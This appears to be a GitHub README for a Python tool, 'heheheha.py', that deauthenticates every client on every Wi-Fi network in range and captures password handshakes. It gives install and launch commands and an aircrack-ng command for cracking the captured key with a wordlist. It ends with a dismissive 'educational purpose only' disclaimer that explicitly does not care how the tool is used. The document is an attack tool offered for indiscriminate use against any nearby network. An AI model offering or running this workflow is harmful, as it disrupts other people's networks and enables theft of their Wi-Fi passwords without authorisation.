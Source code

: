# Mass deauth
<br>
This script deauth everyone on every wifi around you & grab password hash !
<br><br>

## USAGE

First install the requirements :

```
pip3 install -r requirements.txt

```
Now you can launch the script !

```
python3 heheheha.py {YOUR_WIFI_INTERFACE} {YOUR_MONITOR_WIFI_INTERFACE}
```

or 

```
python3 heheheha.py
```
[use wlan0 on both interface]
<br><br>
exemple:
<br>
```
python3 heheheha.py wlan0 wlan0
```
<br>
The file who contain the Handshake is on the current directory, for crack the key make a aircrack command with your fav wordlist :
<br>
```
aircrack-ng the_output_name.cap -w /home/root/wordlist/your_wordlist.txt
```

<br><br>
** Just for educational purpose only, Do, what you want I don’t give a fuck, but it’s not my fault you’re in trouble. ** 

<br><br><br><br>
SOON : Language update for not Frenchies people & for a better english ;)